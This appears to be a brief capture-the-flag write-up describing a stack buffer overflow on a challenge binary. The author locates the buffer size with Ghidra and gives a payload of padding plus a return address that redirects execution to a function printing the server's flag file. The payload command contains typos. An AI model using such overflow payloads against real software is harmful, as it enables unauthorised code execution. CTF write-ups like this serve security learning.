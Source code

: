 Disassembled with ghidra the bin file and checked that the buffer was 216 locally (208 on server). We tested that if you put 220 "a" the program try to call a function at the address: "0x7f0061616161"
So i just used the command

```
pyton "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00"
```
To trigger it + make it run the function flag (address 0x04011d5) to theg the flag.txt from the server
